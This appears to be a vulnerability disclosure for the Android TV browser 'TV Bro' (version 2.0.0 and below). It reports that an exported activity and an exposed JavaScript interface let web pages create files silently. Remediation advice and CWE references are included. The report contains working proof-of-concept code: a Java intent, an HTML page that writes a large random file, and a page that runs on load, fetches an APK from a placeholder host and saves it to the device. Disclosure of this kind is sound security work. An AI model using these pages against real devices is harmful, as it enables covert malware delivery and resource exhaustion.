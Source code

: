 
---
![BOX](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/box.png)

## Vulnerability Report: `com.phlox.tvwebbrowser` 'TV Bro' Version <= 2.0.0

### Vulnerability: Arbitrary File Creation & Remote JavaScript Code Execution in WebView

**Severity**: 🔴 Critical

Permissions required: None

### Details:

The `com.phlox.tvwebbrowser` application mishandles external intents through WebView, allowing for both Arbitrary Code Execution (ACE) and, more critically, arbitrary file creation and downloads using specially crafted URIs.

The arbitrary file creation and download risk arises from the ability to generate Base64 encoded strings representing any file content. An attacker can craft these strings and instruct the WebView to decode and save them as files on the user's device without their consent. 

**Proof of Concept**:

![Proof of Concept](https://github.com/actuator/com.phlox.tvwebbrowser/blob/main/TVBro.gif)

```java
Intent intent = new Intent(Intent.ACTION_VIEW);
intent.setComponent(new ComponentName("com.phlox.tvwebbrowser", "com.phlox.tvwebbrowser.activity.main.MainActivity"));
intent.setData(Uri.parse("http://ampulicidae.com")); // any URL
startActivity(intent);
```

### References:
- [CWE-94: Improper Control of Generation of Code ('Code Injection')](https://cwe.mitre.org/data/definitions/94.html)
- [CWE-73: External Control of File Name or Path](https://cwe.mitre.org/data/definitions/73.html)

### Remediation Steps:
1. Restrict External Intent Handling: In `AndroidManifest.xml`, set the `exported` attribute for the affected activity to `false`.
2. URI Sanitization: Implement strict validation and sanitation for URIs.
3. Validate Base64 Data: Before allowing any Base64 decoding in WebView, validate the content to ensure it does not contain malicious data.

### Addendum:

The `com.phlox.tvwebbrowser` application exposes a JavaScript interface, TVBro, to its WebView component. This poses several security risks:

- **Resource Exhaustion**: Creating extremely large files using `takeBlobDownloadData` method.
- **Arbitrary File Creation/Downloads**: The most critical vulnerability. Files with any content can be created and downloaded without user consent, just by encoding malicious data in Base64.

**Proof of Concepts**:

```html
<!-- Simple HTML code to demonstrate vulnerability -->
<!DOCTYPE html>
<html lang="en">
<head>
    <title>TV Bro Exploit Demo</title>
</head>
<body>
    <button onclick="triggerExploit()">Trigger Exploit</button>
    <div id="status"></div>
    <script>
        function generateRandomBase64String(length) {
            let characters = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/';
            let result = '';
            for (let i = 0; i < length; i++) {
                result += characters.charAt(Math.floor(Math.random() * characters.length));
            }
            return result;
        }
        function triggerExploit() {
            const base64Data = generateRandomBase64String(500000);
            const fileName = 'exploit.txt';
            const url = 'http://ampulicidae.com'; 
            const mimeType = 'text/plain';
            if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
                document.getElementById('status').innerText = "Invoking...";
                window.TVBro.takeBlobDownloadData(base64Data, fileName, url, mimeType);
            } else {
                document.getElementById('status').innerText = "Interface not found.";
            }
        }
    </script>
</body>
</html>
```

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exploit PoC</title>
</head>

<body>

<script>
    // Upon page load, check if the TVBro interface is available and trigger download.
    window.onload = function() {
        const apkURL = 'https://yourdomain.com/path/to/yourfile.apk';
        const mimeType = 'application/vnd.android.package-archive';

        if (window.TVBro && typeof window.TVBro.takeBlobDownloadData === 'function') {
            // Fetch the APK file as a blob
            fetch(apkURL).then(response => response.blob()).then(blob => {
                const reader = new FileReader();
                reader.readAsDataURL(blob);
                reader.onloadend = function() {
                    const base64data = reader.result.split(',')[1];
                    window.TVBro.takeBlobDownloadData(base64data, 'yourfile.apk', apkURL, mimeType);
                }
            });
        }
    }
</script>

</body>

</html>

```
---

